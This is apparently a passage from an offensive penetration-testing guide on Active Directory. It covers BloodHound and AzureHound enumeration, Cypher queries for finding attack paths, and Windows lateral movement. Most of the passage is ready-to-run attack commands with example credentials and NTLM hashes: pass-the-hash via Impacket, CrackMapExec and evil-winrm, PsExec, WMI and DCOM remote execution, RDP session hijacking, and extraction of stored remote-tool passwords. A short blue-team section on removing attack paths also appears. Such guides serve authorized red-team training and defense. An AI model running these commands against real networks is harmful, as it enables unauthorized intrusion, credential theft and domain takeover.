bloodhound-python -c DCOnly -d corp.local -u jdoe -p 'P@ss123' -ns 10.10.10.1 --zipOutput Files
BloodHound.py generates the same JSON file types as SharpHound. The output files are compatible with BloodHound CE and legacy BloodHound. Use the --zip flag to bundle them for easy import.
# Output files
20260101120000_computers.json
20260101120000_users.json
20260101120000_groups.json
20260101120000_domains.json
# Import the ZIP directly into BloodHound GUIMethodology
- Run SharpHound on a domain-joined Windows host to collect all data:
.\SharpHound.exe -c All --zipfilename bloodhound_output.zip - For stealth, use DCOnly collection (LDAP only, no SMB/RPC to workstations):
.\SharpHound.exe -c DCOnly - Loop session collection to capture volatile session data over time:
.\SharpHound.exe -c Session --loop --loopDuration 02:00:00 --loopInterval 00:10:00 - From a non-domain-joined Windows host, use runas /netonly before running SharpHound:
runas /netonly /user:CORP\jdoe cmd.exe # In the new cmd window: .\SharpHound.exe -c All -d corp.local --domaincontroller 10.10.10.1 - From Linux, use BloodHound.py with domain credentials:
bloodhound-python -c All -d corp.local -u jdoe -p 'P@ss123' -ns 10.10.10.1 - Use BloodHound.py with pass-the-hash when only an NTLM hash is available:
bloodhound-python -c All -d corp.local -u admin -p '' --hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f -ns 10.10.10.1 - Import the output ZIP into BloodHound GUI (drag and drop or use the upload button)
3.3 BloodHound Interface and Analysis
The BloodHound GUI provides a visual interface for exploring the graph database. Understanding its layout is essential for effective analysis.
3.3.1 Navigating the BloodHound GUI
The BloodHound GUI provides a visual interface for exploring the graph database. Understanding its layout is essential for effective analysis.
Graph Drawing Area
The central canvas displays the graph visualization. Nodes are rendered as icons (users, computers, groups) connected by labeled edges. Click a node to view its properties. Right-click for context options including "Shortest Paths To" and "Mark as Owned." The graph supports zooming, panning, and node dragging.
Search Bar and Pathfinding
The search bar at the top supports node name searches with autocomplete. Use the pathfinding feature to find shortest paths between two nodes:
- Type the source node in the first field
- Type the target node in the second field
- BloodHound computes and visualizes the shortest path
Pathfinding also supports "Shortest Paths to Domain Admins from Owned Principals" via pre-built queries.
Upper Right Menu and Settings
The upper-right menu provides access to:
- Settings: toggle node labels, edge labels, dark mode
- Export: save the current graph view as an image (PNG/SVG)
- Layout: switch between directed and hierarchical graph layouts
- Debug: view raw Cypher queries executed by the GUI
Database Info
The Database Info panel displays statistics about the imported data:
- Total users, computers, groups, sessions, ACLs, domains
- Number of relationships (edges) in the database
- Session collection quality (percentage of hosts with session data)
Use this to verify that SharpHound/BloodHound.py collected data completely. Low session counts indicate incomplete collection.
3.3.2 Nodes
Nodes represent AD objects and principals. Each node type has distinct properties and attack relevance.
Node Types and Properties
| Node Type | Icon | Key Properties |
|---|---|---|
| User | Person icon | displayname, enabled, lastlogon, admincount, hasspn, dontreqpreauth |
| Computer | Monitor icon | operatingsystem, enabled, unconstraineddelegation, allowedtodelegate |
| Group | People icon | admincount, description, members count |
| Domain | Globe icon | functionallevel, domain SID, trust relationships |
| OU | Folder icon | linked GPOs, contained objects |
| GPO | Document icon | gpcpath, displayname, linked OUs |
Key Node Information Categories
Click any node to open its info panel, which displays multiple tabs:
- Overview: basic object properties (name, domain, SID, enabled status)
- Group Membership: direct and transitive (unrolled) memberships
- Local Admin Rights: computers where this principal has admin access
- Execution Rights: RDP, DCOM, PSRemote, SQLAdmin
- Outbound Control: objects this principal has control over via ACLs
- Inbound Control: principals that have control over this object
3.3.3 Edges
Edges represent relationships between nodes. Understanding edge types is critical for identifying abuse paths.
List of AD Edges
| Edge | Category | Meaning |
|---|---|---|
| MemberOf | Group | Principal is a member of the target group |
| AdminTo | Local Admin | Principal has local admin on the target computer |
| HasSession | Session | Target user has an active session on the source computer |
| GenericAll | ACL | Full control over the target object |
| GenericWrite | ACL | Can write to any non-protected attribute |
| WriteDacl | ACL | Can modify the DACL (add new ACEs) |
| WriteOwner | ACL | Can take ownership of the target object |
| ForceChangePassword | ACL | Can reset target user's password without knowing current |
| AddMember | ACL | Can add principals to the target group |
| AllExtendedRights | ACL | All extended rights (DCSync, password read) |
| CanRDP | Execution | Can RDP to the target computer |
| CanPSRemote | Execution | Can use PowerShell Remoting to the target |
| SQLAdmin | Execution | Has sysadmin role on target SQL Server |
| AllowedToDelegate | Delegation | Constrained delegation to the target SPN |
| AllowedToAct | Delegation | Resource-based constrained delegation configured |
How to Abuse Edges
Right-click an edge in BloodHound and select "Help" to see step-by-step abuse instructions. Each edge type has documented abuse primitives. Common patterns:
- GenericAll on User: reset password, set SPN for Kerberoasting, or write to msDS-KeyCredentialLink (Shadow Credentials)
- GenericAll on Group: add yourself as a member
- GenericAll on Computer: configure RBCD for lateral movement
- WriteDacl: add GenericAll ACE for yourself on the target, then abuse that
- WriteOwner: take ownership, then WriteDacl to add permissions
- HasSession + AdminTo: dump credentials from the session host
BloodHound Edge Playground Reference
The BloodHound Edge Playground is a community-maintained reference documenting every edge type with abuse information, required tools, and OPSEC considerations. Key reference edges for offensive operations:
- Transitive edges: MemberOf is transitive; if User A is in Group B and Group B is in Group C, User A inherits Group C's permissions
- Composite edges: some attack paths require chaining multiple edges (e.g., ForceChangePassword + HasSession + AdminTo)
- Shortcut edges: GenericAll encompasses multiple individual rights and is the most powerful single ACL edge
3.3.4 Analyzing BloodHound Data
BloodHound's value is in finding non-obvious attack paths. Structured analysis focuses on domain mapping, pre-built queries, and session-based attacks.

Domain Mapping and Analysis
Start by understanding the domain structure:
# Cypher: count of users, computers, groups
MATCH (u:User) RETURN count(u)
MATCH (c:Computer) RETURN count(c)
MATCH (g:Group) RETURN count(g)
# Find all domain controllers
MATCH (c:Computer)-[:MemberOf*1..]->(g:Group {name:"DOMAIN CONTROLLERS@CORP.LOCAL"}) RETURN c.name- Map trust relationships between domains and forests
- Identify tier-zero assets (Domain Admins, Enterprise Admins, DC computer accounts)
- Enumerate high-value targets: Exchange servers, ADCS CAs, SCCM servers
Pre-Built Analytics Queries
BloodHound ships with pre-built queries accessible from the Analysis tab:
- Find All Domain Admins: maps members of Domain Admins and equivalent groups
- Find Shortest Paths to Domain Admins: shows the most direct routes
- Find Kerberoastable Users with Most Privileges: identifies high-value SPN accounts
- Find AS-REP Roastable Users: users with "Do not require pre-auth" set
- Find Principals with DCSync Rights: users/groups with replication permissions
- Shortest Paths from Owned Principals: attack paths from already-compromised accounts
- Find Computers with Unconstrained Delegation: potential TGT capture hosts
Finding Sessions and Using Owned Principals
Mark compromised principals as "Owned" (right-click a node, select "Mark as Owned"). This enables BloodHound's most powerful query: "Shortest Paths from Owned Principals to Domain Admins." As new credentials are captured during an engagement, continue marking principals as owned to reveal new paths.
Session data enables credential-theft-based paths:
- If a high-privilege user has a session on a machine where you have admin, dump their credentials
- Use "Find Workstations where Domain Users can RDP" to find initial lateral movement targets
- Derivative admin: if User A has admin on Machine X, and Machine X has a session from User B (who is Domain Admin), User A can compromise Domain Admin
Methodology
- Check the Database Info panel to verify collection completeness (user, computer, group, session counts)
- Use the pathfinding bar to find shortest paths from a compromised user to Domain Admins
- Mark all compromised principals as Owned (right-click node, select "Mark as Owned"), then run "Shortest Paths from Owned Principals"
- Run pre-built analytics queries: Find Kerberoastable Users, AS-REP Roastable Users, Unconstrained Delegation Computers, Principals with DCSync Rights
- Inspect node info panels for high-value targets: check Local Admin Rights, Outbound Control, and Execution Rights tabs
- Identify derivative admin paths: find machines where you have admin that also have sessions from high-privilege users (HasSession + AdminTo chain)
- Right-click abusable edges (GenericAll, WriteDacl, WriteOwner, ForceChangePassword) and select "Help" for step-by-step abuse instructions
3.4 Cypher Queries and Blue Team
Cypher is the query language for Neo4j. Custom Cypher queries allow advanced analysis beyond BloodHound's pre-built queries.
3.4.1 Cypher Queries
Cypher is the query language for Neo4j. Custom Cypher queries allow advanced analysis beyond BloodHound's pre-built queries.
Cypher Syntax Fundamentals
Cypher uses an ASCII-art pattern syntax to describe graph patterns:
# Nodes are wrapped in parentheses
(n) # anonymous node
(u:User) # node with label User
(u:User {name:"JDOE@CORP.LOCAL"}) # node with property filter
# Relationships are wrapped in brackets inside arrows
-[r]-> # directed relationship
-[r:MemberOf]-> # relationship with type
-[r:MemberOf*1..]-> # variable-length path (1 or more hops)
# Full pattern
MATCH (u:User)-[:MemberOf*1..]->(g:Group) RETURN u.name, g.nameBasic Cypher Queries
# All enabled users
MATCH (u:User {enabled:true}) RETURN u.name
# All computers running Windows Server
MATCH (c:Computer) WHERE c.operatingsystem CONTAINS "Server" RETURN c.name, c.operatingsystem
# Users with SPN set (Kerberoastable)
MATCH (u:User {hasspn:true, enabled:true}) RETURN u.name, u.serviceprincipalnames
# Users with "Do not require pre-authentication" (AS-REPRoastable)
MATCH (u:User {dontreqpreauth:true, enabled:true}) RETURN u.name
# All Domain Admins
MATCH (u:User)-[:MemberOf*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}) RETURN u.nameDepth Traversal and Filtering
# Shortest path from a user to Domain Admins
MATCH p=shortestPath((u:User {name:"JDOE@CORP.LOCAL"})-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})) RETURN p
# All paths up to 5 hops
MATCH p=(u:User {name:"JDOE@CORP.LOCAL"})-[*1..5]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}) RETURN p
# Filter by edge type
MATCH p=(u:User)-[:GenericAll|GenericWrite|WriteDacl*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}) RETURN pAnalyzing Built-in Queries
Enable the "Debug" toggle in Settings to see the raw Cypher behind every pre-built query. This reveals the exact patterns used and helps build custom variants. For example, the "Shortest Paths to Domain Admins" query can be modified to target Enterprise Admins or other high-value groups.
Advanced and Custom Queries
# Computers with unconstrained delegation (excluding DCs)
MATCH (c:Computer {unconstraineddelegation:true}) WHERE NOT c.name CONTAINS "DC" RETURN c.name
# Users that can DCSync
MATCH (u)-[:GetChanges]->(d:Domain) MATCH (u)-[:GetChangesAll]->(d) RETURN u.name
# Kerberoastable users with a path to Domain Admins
MATCH (u:User {hasspn:true, enabled:true}) MATCH p=shortestPath((u)-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})) RETURN u.name, length(p)
# Computers where Domain Users have local admin
MATCH (g:Group {name:"DOMAIN USERS@CORP.LOCAL"})-[:AdminTo]->(c:Computer) RETURN c.name
# Find all GPOs that apply to a specific OU
MATCH (o:OU)-[:GpLink]->(g:GPO) RETURN o.name, g.name
# Principals with constrained delegation
MATCH (u)-[:AllowedToDelegate]->(c:Computer) RETURN u.name, c.nameSaving Custom Queries
Save frequently used queries in BloodHound's custom queries panel. In BloodHound Legacy, edit the customqueries.json file in the BloodHound config directory. In BloodHound CE, queries can be saved from the query editor.
{
"queries": [
{
"name": "High Value Kerberoastable Users",
"queryList": [
{
"final": true,
"query": "MATCH (u:User {hasspn:true,enabled:true}) MATCH p=shortestPath((u)-[*1..]->(g:Group {highvalue:true})) RETURN p"
}
]
}
]
}3.4.2 BloodHound for Blue Teams
Defenders use BloodHound to identify and eliminate attack paths before adversaries exploit them. The approach mirrors offensive analysis but focuses on remediation:
- Identify Tier-Zero attack paths: find all paths to Domain Admins and prioritize breaking the shortest ones
- Audit ACLs: run queries for excessive permissions (GenericAll, WriteDacl on sensitive objects)
- Review delegation: find unconstrained and constrained delegation misconfigurations
- Session hygiene: identify machines where privileged users have sessions on low-trust workstations
- Group membership sprawl: find nested group memberships that grant unintended privileges
# Defensive Cypher: find all attack paths to Tier-Zero
MATCH p=shortestPath((n)-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})) WHERE NOT n=g RETURN p
# Find users with admin rights they likely should not have
MATCH (u:User)-[:AdminTo]->(c:Computer) WHERE NOT u.name CONTAINS "ADMIN" RETURN u.name, c.name
# Stale accounts with privileged access
MATCH (u:User {enabled:true})-[:MemberOf*1..]->(g:Group {highvalue:true}) WHERE u.lastlogontimestamp < (datetime().epochseconds - (180 * 86400)) RETURN u.name, g.nameMethodology
- Find Kerberoastable users with a path to Domain Admins:
MATCH (u:User {hasspn:true, enabled:true}) MATCH p=shortestPath((u)-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})) RETURN u.name, length(p) - Identify users that can DCSync:
MATCH (u)-[:GetChanges]->(d:Domain) MATCH (u)-[:GetChangesAll]->(d) RETURN u.name - Find computers with unconstrained delegation (excluding DCs):
MATCH (c:Computer {unconstraineddelegation:true}) WHERE NOT c.name CONTAINS "DC" RETURN c.name - Find computers where Domain Users have local admin:
MATCH (g:Group {name:"DOMAIN USERS@CORP.LOCAL"})-[:AdminTo]->(c:Computer) RETURN c.name - Query all ACL-based attack paths to Domain Admins:
MATCH p=(u:User)-[:GenericAll|GenericWrite|WriteDacl*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}) RETURN p - Enable Debug mode in Settings to view raw Cypher behind pre-built queries, then adapt them for custom targets
- Save frequently used queries to customqueries.json for reuse across engagements
3.5 Azure Enumeration
AzureHound extends BloodHound's data collection to Azure Active Directory (now Microsoft Entra ID). It enumerates Azure AD users, groups, roles, applications, service principals, and their relationships.
3.5.1 Azure Enumeration with AzureHound
AzureHound extends BloodHound's data collection to Azure Active Directory (now Microsoft Entra ID). It enumerates Azure AD users, groups, roles, applications, service principals, and their relationships.
# Install AzureHound
# Download from https://github.com/BloodHoundAD/AzureHound/releases
# Run AzureHound with device code authentication
./azurehound -t <tenant-id> --auth devicecode
# Run with client credentials
./azurehound -t <tenant-id> --clientid <app-id> --clientsecret <secret>
# Collect all Azure data
./azurehound -t <tenant-id> --auth devicecode list --output azurehound.jsonAzureHound collects Azure-specific node types: Tenant, Subscription, Resource Group, Virtual Machine, Key Vault, App Registration, Service Principal, and Managed Identity.
3.5.2 Azure Attacks via BloodHound
BloodHound CE supports Azure attack path analysis alongside on-premises AD. Common Azure AD attack paths:
- Global Administrator: equivalent to Domain Admin in Azure. Any path to GA is a domain compromise path
- Application Admin / Cloud App Admin: can add credentials to existing app registrations with high privileges
- Privileged Role Administrator: can assign any Azure AD role, including Global Administrator
- Service Principal abuse: service principals with high Azure RBAC roles can be targeted via exposed credentials in code repositories or Key Vault misconfigurations
- Hybrid paths: Azure AD Connect syncs on-premises AD to Azure AD. Compromising the sync account can lead to cloud compromise, and vice versa
# Cypher: find all paths to Global Administrator role
MATCH p=shortestPath((n)-[*1..]->(r:AZRole {displayname:"Global Administrator"})) RETURN p
# Find service principals with Owner rights on subscriptions
MATCH (sp:AZServicePrincipal)-[:AZOwns]->(s:AZSubscription) RETURN sp.displayname, s.displaynameMethodology
- Run AzureHound with device code authentication to collect Azure AD data:
./azurehound -t--auth devicecode list --output azurehound.json - Alternatively, authenticate with client credentials (app registration):
./azurehound -t--clientid --clientsecret - Import AzureHound output into BloodHound CE and review hybrid (on-prem + Azure) attack paths
- Query for all paths to the Global Administrator role:
MATCH p=shortestPath((n)-[*1..]->(r:AZRole {displayname:"Global Administrator"})) RETURN p - Find service principals with Owner rights on subscriptions:
MATCH (sp:AZServicePrincipal)-[:AZOwns]->(s:AZSubscription) RETURN sp.displayname, s.displayname - Investigate hybrid paths through Azure AD Connect sync accounts that bridge on-prem AD and Azure AD
4. Windows Lateral Movement
Lateral movement describes techniques for moving between systems within a network after initial compromise. In Active Directory environments, lateral movement typically leverages legitimate administrative protocols and authentication mechanisms to access additional hosts and escalate domain privilege.
4.1 Lateral Movement Overview
Lateral movement relies on two prerequisites: valid credentials (or credential material) and a remote service that accepts authentication. The attacker uses one to authenticate to the other and gain code execution or data access on a remote host.

Core concepts:
- Administrative shares:
C$,ADMIN$, andIPC$are hidden shares accessible to local administrators. Most lateral movement tools use these shares to stage payloads or execute commands - Authentication material: plaintext passwords, NTLM hashes (pass-the-hash), Kerberos tickets (pass-the-ticket), or certificates (pass-the-certificate)
- Logon types: different lateral movement techniques produce different Windows logon events (Type 3 Network, Type 10 RemoteInteractive, Type 7 Unlock). This affects which credential material is cached on the target
- Local admin requirement: most lateral movement techniques require the authenticating principal to be a local administrator on the target. Exceptions include RDP (Remote Desktop Users group) and WinRM (Remote Management Users)
4.2 RDP and Remote Administration
RDP provides an interactive graphical session on the target host. It uses TCP port 3389 by default and creates a Type 10 (RemoteInteractive) logon, which caches credentials on the target.
4.2.1 Remote Desktop Protocol (RDP)
RDP provides an interactive graphical session on the target host. It uses TCP port 3389 by default and creates a Type 10 (RemoteInteractive) logon, which caches credentials on the target.
RDP Overview
RDP access requires membership in the local Administrators or Remote Desktop Users group. Network Level Authentication (NLA), enabled by default on modern Windows, requires valid credentials before the session is established.
| Aspect | Detail |
|---|---|
| Default Port | TCP 3389 |
| Logon Type | 10 (RemoteInteractive) |
| Credential Caching | Yes (credentials cached in LSASS) |
| Required Group | Administrators or Remote Desktop Users |
| NLA | Pre-authentication required by default |
xfreerdp from Linux
# Basic RDP connection
xfreerdp /v:10.10.10.50 /u:jdoe /p:'P@ss123' /d:CORP
# Pass-the-hash with RDP (requires Restricted Admin or disabled NLA)
xfreerdp /v:10.10.10.50 /u:admin /pth:7facdc498ed1680c4fd1448319a8c04f /d:CORP
# Dynamic resolution and drive mapping
xfreerdp /v:10.10.10.50 /u:jdoe /p:'P@ss123' /d:CORP /dynamic-resolution /drive:share,/tmpRestricted Admin Mode
Restricted Admin Mode allows RDP authentication using only the NTLM hash (no plaintext password needed). The session runs with network logon semantics: credentials are not cached on the target, but the session cannot access network resources as the authenticating user.
# Enable Restricted Admin Mode (on target, requires admin)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
# Connect via Restricted Admin from Windows
mstsc /restrictedadmin /v:10.10.10.50
# Connect via xfreerdp with PtH
xfreerdp /v:10.10.10.50 /u:admin /pth:<NTLM_HASH> /d:CORP /restricted-adminSharpRDP
SharpRDP is a .NET tool that executes commands over RDP without an interactive GUI session. It connects to the target, sends keystrokes to a cmd.exe or powershell.exe window, and disconnects.
# Execute a command via SharpRDP
.\SharpRDP.exe computername=SRV01 command="whoami > C:\Temp\out.txt" username=CORP\admin password=P@ss123RDP Hijacking
An administrator with SYSTEM access on a host can hijack existing RDP sessions without knowing the session user's password. This uses the tscon command to connect to another user's disconnected or active session.
# List active sessions
query user
# Hijack session (requires SYSTEM)
# Use PsExec to get SYSTEM, then connect to session ID 2
PsExec.exe -s -i cmd.exe
tscon 2 /dest:consoleBloodHound RDP Analysis
# Cypher: find all users who can RDP to a target
MATCH (u)-[:CanRDP]->(c:Computer {name:"SRV01.CORP.LOCAL"}) RETURN u.name
# Find computers where Domain Users can RDP
MATCH (g:Group {name:"DOMAIN USERS@CORP.LOCAL"})-[:CanRDP]->(c:Computer) RETURN c.name4.2.2 Secure Shell (SSH)
Modern Windows versions (Server 2019+, Windows 10 1809+) include an optional OpenSSH server. When enabled, SSH provides a command shell on port 22 with no Windows-specific detection signatures.
# Check if OpenSSH is installed on the target
crackmapexec ssh 10.10.10.50 -u admin -p 'P@ss123'
# Connect via SSH
ssh admin@10.10.10.50
# SSH port forwarding (local forward)
ssh -L 8080:internal-host:80 admin@10.10.10.50
# SOCKS proxy via SSH
ssh -D 1080 admin@10.10.10.50SSH logons on Windows generate event ID 4624 with Logon Type 8 (NetworkCleartext) unless public key authentication is used.
4.2.3 Remote Management Tools (VNC, AnyDesk, TeamViewer)
Third-party remote management tools installed for legitimate purposes can be abused for lateral movement. Look for these during enumeration:
- VNC: often uses port 5900. Credentials may be stored in registry or configuration files and can be extracted
- AnyDesk: uses its own protocol. Unattended access passwords are stored locally and can be extracted from
%ProgramData%\AnyDesk\system.conf - TeamViewer: stores credentials in the Windows registry. Tools like
TeamViewer_Passwordeercan extract them
# Find remote management tools
Get-WmiObject -Class Win32_Product | Where-Object { $_.Name -match "VNC|AnyDesk|TeamViewer" }
# Check for listening VNC
netstat -an | findstr ":5900"
# Check for AnyDesk
Get-ItemProperty "HKLM:\SOFTWARE\WOW6432Node\AnyDesk"Methodology
- Enumerate hosts with RDP enabled using BloodHound Cypher query:
MATCH (u)-[:CanRDP]->(c:Computer) RETURN u.name, c.name - Connect via xfreerdp with credentials:
xfreerdp /v:10.10.10.50 /u:jdoe /p:'P@ss123' /d:CORP /dynamic-resolution /drive:share,/tmp - If only an NTLM hash is available, enable Restricted Admin and use PtH:
# On target (requires admin) reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f# From Linux xfreerdp /v:10.10.10.50 /u:admin /pth:<NTLM_HASH> /d:CORP /restricted-admin - Execute commands over RDP without a GUI session using SharpRDP:
.\SharpRDP.exe computername=SRV01 command="whoami > C:\Temp\out.txt" username=CORP\admin password=P@ss123 - If SYSTEM access is available, hijack existing RDP sessions:
query user PsExec.exe -s -i cmd.exe tscon 2 /dest:console - Check for SSH on modern Windows hosts and connect if available:
crackmapexec ssh 10.10.10.50 -u admin -p 'P@ss123' ssh admin@10.10.10.50 - Enumerate third-party remote management tools (VNC, AnyDesk, TeamViewer):
Get-WmiObject -Class Win32_Product | Where-Object { $_.Name -match "VNC|AnyDesk|TeamViewer" } netstat -an | findstr ":5900"
4.3 SMB and WMI Execution
SMB-based lateral movement techniques authenticate to the target's SMB service (port 445) and use administrative shares to upload payloads or execute commands. These produce Type 3 (Network) logon events and do not cache credentials on the target.
4.3.1 Server Message Block (SMB)
SMB-based lateral movement techniques authenticate to the target's SMB service (port 445) and use administrative shares to upload payloads or execute commands. These produce Type 3 (Network) logon events and do not cache credentials on the target.
SMB Overview
| Aspect | Detail |
|---|---|
| Default Port | TCP 445 |
| Logon Type | 3 (Network) |
| Credential Caching | No |
| Required Group | Local Administrators |
| PtH Support | Yes |
PsExec
PsExec (Sysinternals) copies a service binary to the ADMIN$ share, creates and starts a Windows service to execute it, then cleans up. It provides an interactive command shell.
# Sysinternals PsExec
.\PsExec.exe \\SRV01 -u CORP\admin -p P@ss123 cmd.exe
# Run as SYSTEM
.\PsExec.exe \\SRV01 -s cmd.exe
# Execute a specific command
.\PsExec.exe \\SRV01 -u CORP\admin -p P@ss123 ipconfig /allImpacket PsExec, smbexec, wmiexec, and atexec
Impacket provides multiple remote execution tools, each with different execution mechanics and forensic footprints.
# impacket-psexec (uploads service binary, high forensic footprint)
impacket-psexec CORP/admin:'P@ss123'@10.10.10.50
# impacket-smbexec (creates a service per command, slightly quieter)
impacket-smbexec CORP/admin:'P@ss123'@10.10.10.50
# impacket-wmiexec (uses WMI, no service creation)
impacket-wmiexec CORP/admin:'P@ss123'@10.10.10.50
# impacket-atexec (uses Task Scheduler)
impacket-atexec CORP/admin:'P@ss123'@10.10.10.50 "whoami"
# Pass-the-hash with any Impacket tool
impacket-psexec CORP/admin@10.10.10.50 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04fPass the Hash over SMB
NTLM hashes can be used directly for SMB authentication without cracking. This applies to all SMB-based tools.
# CrackMapExec with NTLM hash
crackmapexec smb 10.10.10.50 -u admin -H 7facdc498ed1680c4fd1448319a8c04f -d CORP -x "whoami"
# evil-winrm with hash (WinRM, not SMB, but commonly paired)
evil-winrm -i 10.10.10.50 -u admin -H 7facdc498ed1680c4fd1448319a8c04f4.3.2 Windows Management Instrumentation (WMI)
WMI is a Windows administration framework that allows remote process creation and command execution. WMI-based lateral movement uses DCOM over port 135 (with a dynamic high port) and does not write files to disk on the target.
WMI Overview
| Aspect | Detail |
|---|---|
| Default Port | TCP 135 + dynamic high port |
| Logon Type | 3 (Network) |
| Credential Caching | No |
| Required Group | Local Administrators |
| Disk Artifacts | Minimal (no service binary) |
wmiexec.py
# Interactive shell via WMI
impacket-wmiexec CORP/admin:'P@ss123'@10.10.10.50
# Pass-the-hash
impacket-wmiexec CORP/admin@10.10.10.50 -hashes :7facdc498ed1680c4fd1448319a8c04f
# Execute single command
impacket-wmiexec CORP/admin:'P@ss123'@10.10.10.50 "hostname"Invoke-WMIExec
# PowerShell WMI remote process creation
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami > C:\Temp\out.txt" -ComputerName SRV01 -Credential (Get-Credential)
# Using Invoke-WMIExec (Kevin Robertson)
Invoke-WMIExec -Target 10.10.10.50 -Username admin -Domain CORP -Hash 7facdc498ed1680c4fd1448319a8c04f -Command "whoami"WMI Process Creation
WMI's Win32_Process.Create method spawns a process on the remote host. The process runs under the authenticated user's context. Output is not returned directly; redirect output to a file and retrieve it via SMB.
# Remote process via WMI (native)
wmic /node:SRV01 /user:CORP\admin /password:P@ss123 process call create "cmd.exe /c ipconfig > C:\Temp\output.txt"
# Retrieve output
type \\SRV01\C$\Temp\output.txtMethodology
- Execute commands via PsExec (creates a service on the target):
.\PsExec.exe \\SRV01 -u CORP\admin -p P@ss123 cmd.exe - Use Impacket tools from Linux, choosing by forensic footprint:
# psexec (uploads service binary, high footprint) impacket-psexec CORP/admin:'P@ss123'@10.10.10.50 # smbexec (creates a service per command, slightly quieter) impacket-smbexec CORP/admin:'P@ss123'@10.10.10.50 # wmiexec (uses WMI, no service creation) impacket-wmiexec CORP/admin:'P@ss123'@10.10.10.50 # atexec (uses Task Scheduler) impacket-atexec CORP/admin:'P@ss123'@10.10.10.50 "whoami" - Authenticate via pass-the-hash with any Impacket tool:
impacket-psexec CORP/admin@10.10.10.50 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f - Use CrackMapExec for PtH command execution over SMB:
crackmapexec smb 10.10.10.50 -u admin -H 7facdc498ed1680c4fd1448319a8c04f -d CORP -x "whoami" - Execute remotely via WMI (no disk artifacts, uses port 135):
impacket-wmiexec CORP/admin:'P@ss123'@10.10.10.50 "hostname" - Use native PowerShell WMI for remote process creation:
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami > C:\Temp\out.txt" -ComputerName SRV01 -Credential (Get-Credential) - Use Invoke-WMIExec for hash-based WMI execution:
Invoke-WMIExec -Target 10.10.10.50 -Username admin -Domain CORP -Hash 7facdc498ed1680c4fd1448319a8c04f -Command "whoami"
4.4 WinRM and DCOM Execution
WinRM is Microsoft's implementation of WS-Management, providing remote shell access over HTTP/HTTPS. It is the protocol underlying PowerShell Remoting.
4.4.1 Windows Remote Management (WinRM)
WinRM is Microsoft's implementation of WS-Management, providing remote shell access over HTTP/HTTPS. It is the protocol underlying PowerShell Remoting.
WinRM Overview
| Aspect | Detail |
|---|---|
| Default Ports | TCP 5985 (HTTP), 5986 (HTTPS) |
| Logon Type | 3 (Network) |
| Credential Caching | No (unless CredSSP is used) |
| Required Group | Local Administrators or Remote Management Users |
| PtH Support | Yes (with evil-winrm or Invoke-Command + NTLM) |
evil-winrm
# Basic connection
evil-winrm -i 10.10.10.50 -u admin -p 'P@ss123'
# Pass-the-hash
evil-winrm -i 10.10.10.50 -u admin -H 7facdc498ed1680c4fd1448319a8c04f
# Upload/download files
upload /local/path/payload.exe C:\Temp\payload.exe
download C:\Temp\loot.zip /local/path/loot.zip
# Load PowerShell scripts into the session
evil-winrm -i 10.10.10.50 -u admin -p 'P@ss123' -s /opt/scripts/PowerShell Remoting
# Enable WinRM on the local machine (if needed)
Enable-PSRemoting -Force
# Test WinRM connectivity
Test-WSMan -ComputerName SRV01
# Create a credential object
$cred = New-Object System.Management.Automation.PSCredential("CORP\admin", (ConvertTo-SecureString "P@ss123" -AsPlainText -Force))Enter-PSSession and Invoke-Command
# Interactive remote session
Enter-PSSession -ComputerName SRV01 -Credential $cred
# Execute a command on a remote host
Invoke-Command -ComputerName SRV01 -Credential $cred -ScriptBlock { whoami; hostname }
# Execute on multiple hosts simultaneously
Invoke-Command -ComputerName SRV01,SRV02,DC01 -Credential $cred -ScriptBlock { hostname }
# Run a local script on a remote host
Invoke-Command -ComputerName SRV01 -Credential $cred -FilePath C:\Scripts\enum.ps14.4.2 Distributed Component Object Model (DCOM)
DCOM extends COM across the network, allowing remote instantiation of COM objects for code execution. DCOM lateral movement uses port 135 for the initial RPC endpoint mapper connection, then a dynamic high port for the object interaction.
DCOM Overview
| Aspect | Detail |
|---|---|
| Default Port | TCP 135 + dynamic high port |
| Logon Type | 3 (Network) |
| Credential Caching | No |
| Required Group | Local Administrators |
| Detection | Lower than PsExec; no service creation |
MMC20.Application
The MMC20.Application COM object exposes an ExecuteShellCommand method that spawns a process on the remote host.
# Create remote MMC COM object
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.50"))
# Execute a command
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c whoami > C:\Temp\dcom.txt", "7")ShellWindows
The ShellWindows COM object (CLSID 9BA05972-F6A8-11CF-A442-00A0C90A8F39) provides access to the Windows shell on the remote system.
# Instantiate ShellWindows
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", "10.10.10.50"))
# Execute via the shell
$com.item().Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\System32", $null, 0)ShellBrowserWindow
The ShellBrowserWindow COM object (CLSID C08AFD90-F2A1-11D1-8455-00A0C91F3880) works similarly to ShellWindows but uses a single instance rather than a collection.
# Instantiate ShellBrowserWindow
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "10.10.10.50"))
# Execute command
$com.Document.Application.ShellExecute("cmd.exe", "/c net user /domain", "C:\Windows\System32", $null, 0)ADMIN$. The spawned process is a child of the DCOM server process (svchost.exe), which is less suspicious than a PsExec service binary.Methodology
- Connect to target via evil-winrm with credentials or hash:
